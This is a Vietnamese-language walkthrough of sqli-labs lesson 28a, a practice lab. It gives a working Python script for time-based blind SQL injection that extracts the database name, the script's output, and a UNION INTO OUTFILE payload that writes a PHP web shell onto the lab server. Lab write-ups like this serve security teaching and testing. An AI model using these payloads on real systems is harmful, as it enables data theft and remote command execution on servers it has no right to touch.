






# Less 28a

Đề bài cho truyền vào ID trên URL


Thử truyền vào một giá trị



Thử nhập vào một số giá trị có thể gây ra lỗi cho SQL



Tôi thấy ở đây lỗi sẽ không được hiển thị lên màn hình

Tôi tiếp tục thử



Tôi thấy có thể khai thác được bằng time based



Ta có thể sử dụng script

```
import requests
import time
import string

url_1 = "http://192.168.84.233/sqli-labs/Less-28a/?id=1') and if(substr(("
query = "select database()"
url_2 = "),{},1)='{}',sleep(5), false) --+"
url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url1 = url.format(n,i)
        time_1 = time.time()
        result = requests.get(url1)
        time_2 = time.time()
        if (time_2 - time_1 >= 5):
            print(i)
            break
```

Kết quả là

```
python Sql-time-based.py 
s
e
c
u
r
i
t
y
+
+
+
+
```

Ta có thể khai thác các thông tin khác bằng cách này

Ta có thể thêm 1 đoạn code PHP lên server

```
http://192.168.84.233/sqli-labs/Less-28a/?id=1') union union select select 0,0,"<?php system($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' --+
```



